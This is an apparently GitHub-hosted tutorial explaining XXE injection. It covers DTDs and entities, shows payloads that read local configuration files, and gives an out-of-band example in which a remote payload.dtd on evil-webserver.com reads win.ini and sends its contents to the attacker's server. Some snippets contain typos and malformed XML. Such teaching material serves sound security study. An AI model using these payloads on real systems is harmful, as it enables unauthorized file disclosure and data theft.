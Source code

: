 # What is XXE?
XXE = XML External Entity

This is a type of attack that targets `XML` parsers. The attack works by loading an `External Entity` into valid `XML`. This attack can lead to `data disclosure`, `dos`,`srf` and even port scanning of local resources.

# XML and its ENTITYs
### What is a DTD
A DTD is a Document Type Definition.
A DTD defines the structure anf the legal elements and attributes of an XML document. 
### Why use a DTD
With a DTD, independent groups of peopl can agree on a standard DTD for interchanging data.
An application can use a DTD to verify that XML data is valid. 
### Internal DTD Declaration
If the DTD is declared inside the XML file, it must be wrapped inside the `<!DOCTYPE>` definition:
```xml
<?xml version="1.0"?>
<!DOCTYPE note [
<!ELEMENT note (to, from, heading, body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
]>
<note>
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Text here</body>
</note>
```
### An External DTD Declaration
If the DTD is declared in an external file, the `<!DOCTYPE>`definition must contain a reference to the DTD file:
```xml
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
	<to>Tove</to>
	<from>Jani</from>
	<heading>Reminder</heading>
	<body>Text here</body>
</note>
```
Here is what the `dtd` file looks like
```xml
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)> 
```
`ENTITY` tags within are simply shortcut to a special character that can be reference by calling the XML file. Notice that the last `ENTITY` tag is actually pulling the contens of a local file via the `SYSTEM` word.

```xml
<!DOCTYPE STRUCTURE [
<!ELEMENT SPECIFICATIONS (#PCDATA)>
<!ENTITY VERSION “1.1”>
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
```
The above `.dtd` file might be used as follows
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPES foo SYSTEM "http://validserver.com"/formatting.dtd">
<specifications>&file;</specifications>
```
`formatting.dtd` is called using `DOCTYPE` tags and the XML file can reference the `ENTITYs` and structure within.

`ENTITYs` can be used without formality of full `.dtd` file. By calling `DOCTYPE` and using square brackets`[]`, you can reference `ENTITY` tags for use in only that XML file. Below the `application.conf` file is referenced for use in `<configuration></configuration>` tags, without a full `.dtd` file to host it:
```xml
<?xml version=”1.0″ encoding=”ISO-8859-1″?>
<!DOCTYPE example [
<!ELEMENT example ANY >
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
<configuration>&file;</configuration>
```
### Sumary
- DTD files can be external or internal to an XML file
- ENTITYs exist within DTD files
- ENTITYs can call local system files

# Injection
When data is passed in a `HTTP` request it opens the possibility of abuse from the user. In the case of a form wrappen in XML being sent to the server to be processed:
- Intercept vulnerable request with a web proxy
- Add injected ENTITY tag and `&xxe;` variable reference
	- ensure the `&xxe;` reference is with data that will be returned and displayed
- Release the intercept POST request
# Out of band
While some attacks might be as easy as that there are times where it is not as easy and here we turn to those external .dtd files mentioned. DOCTYPES references to external .dtd files allow us to conduct this attack entirely `out-of-band`

The following request contains a .dtd from a server the attacker controls - here is the request:
```


POST /notes/savenote HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml;charset=UTF-8.
Host: myserver.com

<?xml version=”1.0″ ?>
<!DOCTYPE hack [
<!ELEMENT x ANY >
<!ENTITY % alpha SYSTEM “https://evil-webserver.com/payload.dtd”>
%alpha;
%bravo;
]>
<x>&charlie;</x>
<note>
<to>Alice</to>
<from>Bob</from>
<header>Sync Meeting</header>
<time>1200</time>
<body>Meeting time changed</body>
</note>

```
And here is what that `payload.dtd` contains
```
<?xml version=”1.0″ encoding=”utf-8″ ?>
<!ENTITY % data SYSTEM “file:///c:/windows/win.ini”>
<!ENTITY % bravo “<!ENTITY % charlie SYSTEM
‘https://evil-webserver.com/?%data;’>”>
```
- Client sends the POST request with the injected XML code
	- The server, via the XML parser, parses the XML from top to bottom, reaching the injected ENTITY
- The server requests `payload.dtd` from `https://evil-webserver.com`
- `https://evil-webserver.com` responds with `payload.dtd`
- The code within payload.dtd is parsed by the XML parser, which reads the contents of win.ini and sends it as a parameter in an HTTP GET request back to `https://evil-webserver.com`

The extracted data can be viewed by the attacker in their web server logs.

[XXE Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)
[Synack](https://www.synack.com/blog/a-deep-dive-into-xxe-injection/)
